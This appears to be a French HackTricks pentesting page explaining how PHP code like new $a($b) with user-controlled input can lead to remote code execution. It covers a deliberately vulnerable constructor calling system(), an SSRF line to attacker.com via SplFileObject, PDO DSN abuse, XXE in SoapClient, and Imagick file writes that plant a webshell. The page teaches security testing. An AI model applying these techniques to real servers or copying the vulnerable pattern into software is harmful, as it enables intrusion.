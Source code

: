 # PHP - RCE en abusant de la création d'objet : new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Introduction

Dans la situation où vous pouvez créer un nouvel objet arbitraire comme `new $_GET["a"]($_GET["a"])`, vous pourriez être en mesure d'obtenir une RCE, et [**cet article**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) expose différentes façons d'obtenir une RCE.

## RCE via des classes personnalisées ou l'autoloading

Dans la construction `new $a($b)`, la **variable `$a` représente le nom de la classe** pour laquelle l'objet sera créé, et la variable **`$b` représente le premier argument** qui sera passé au constructeur de l'objet.

Si `$a` et `$b` proviennent de GET/POST, ils peuvent être **des chaînes de caractères ou des tableaux de chaînes de caractères**. S'ils proviennent de **JSON** ou d'ailleurs, ils **peuvent avoir d'autres types**, tels que des objets ou des booléens.

Considérons l'exemple suivant :
```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Dans ce code, vous pouvez définir `$a` sur `App` ou `App2` et `$b` sur `uname -a`. Après cela, la commande `uname -a` sera exécutée.

Lorsqu'il n'y a pas de classes exploitables dans votre application, ou que la classe nécessaire se trouve dans un fichier séparé qui n'est pas inclus par le code vulnérable, vous pouvez jeter un coup d'œil aux fonctions d'autoload.

Les **fonctions d'autoload** sont définies en enregistrant des rappels via `spl_autoload_register` ou en définissant `__autoload`. Elles sont appelées lorsqu'une instance d'une classe inconnue est en train d'être créée.
```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```
Selon la version de PHP et le code dans les fonctions d'autoloading, il peut exister des moyens d'obtenir une exécution de code à distance via l'autoloading.

## RCE via les classes intégrées

Lorsque vous n'avez pas de classes personnalisées et d'autoloading, vous pouvez vous fier uniquement aux **classes PHP intégrées**.

Il existe de 100 à 200 classes PHP intégrées. Le nombre d'entre elles dépend de la version de PHP et des extensions installées. Toutes les classes intégrées peuvent être répertoriées via la fonction `get_declared_classes`, ainsi que les classes personnalisées :
```php
var_dump(get_declared_classes());
```
Des classes avec des constructeurs utiles peuvent être trouvées via [l'API de réflexion](https://www.php.net/manual/en/book.reflection.php).

Affichage des constructeurs et de leurs paramètres en utilisant l'API de réflexion: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

Si vous contrôlez **plusieurs paramètres de constructeur et pouvez appeler des méthodes arbitraires** par la suite, il existe de nombreuses façons d'obtenir une exécution de code à distance. Mais si vous ne pouvez passer **qu'un seul paramètre et n'avez aucun appel** à l'objet créé, il n'y a **presque rien**.

Je connais seulement trois façons d'obtenir quelque chose de `new $a($b)`.

### **SSRF + désérialisation Phar**

La classe `SplFileObject` implémente un constructeur qui permet la connexion à n'importe quelle URL locale ou distante:
```
new SplFileObject('http://attacker.com/');
```
Cela permet SSRF. De plus, les SSRF en PHP < 8.0 peuvent être transformées en désérialisations via des techniques avec le protocole Phar.

### **Exploitation de PDOs**

La classe PDO a un autre constructeur intéressant :
```php
new PDO("sqlite:/tmp/test.txt")
```
Le constructeur `PDO` accepte des chaînes DSN, ce qui nous permet de **se connecter à n'importe quelle base de données locale ou distante** en utilisant les **extensions de base de données installées**. Par exemple, l'extension SQLite peut créer des fichiers vides.

### **SoapClient/SimpleXMLElement XXE**

Dans PHP ≤ 5.3.22 et ≤ 5.4.12, le constructeur de SoapClient était **vulnérable à XXE**. Le constructeur de SimpleXMLElement était également vulnérable à XXE, mais il nécessitait libxml2 < 2.9.

## RCE via l'extension Imagick

En vérifiant les **dépendances** du **projet** que vous essayez d'exploiter, vous pouvez trouver des **nouvelles classes** qui pourraient être **abusées pour exécuter des commandes** en créant un nouvel objet. Dans ce cas, **Imagick** s'est avéré utile à cette fin.

### Analyseur VID

L'analyseur VID permet d'écrire un contenu arbitraire dans un chemin arbitraire à l'intérieur du système de fichiers, ce qui permettrait à un attaquant d'écrire un PHPshell dans un dossier accessible depuis la page web et d'obtenir une RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### Analyseur VID + Téléchargement de fichiers

Lorsqu'un fichier est téléchargé sur PHP, il est temporairement stocké dans `/tmp/phpXXXXXX`. L'analyseur VID d'Imagick avec le protocole **msl** permet de **spécifier des caractères génériques dans les chemins de fichiers** (de sorte que le fichier téléchargé temporaire peut être facilement accessible) et de **le copier dans n'importe quel emplacement arbitraire**.\
C'est une autre façon d'obtenir l'écriture de fichiers arbitraires dans le système de fichiers :

![](<../../../.gitbook/assets/image (159).png>)

### Plantage PHP + Brute Force

Le [**writeup original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) expliquait une autre façon d'obtenir une RCE en **téléchargeant des fichiers avec un contenu spécifique** et en faisant **planter le serveur avant qu'il ne supprime** ce fichier, puis en **bruteforçant le nom** du fichier temporaire jusqu'à ce qu'**Imagick exécute du code PHP arbitraire**.

Cependant, apparemment, le **truc du plantage** découvert ne **fonctionnait que dans une ancienne version d'ImageMagick**.

## Références

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
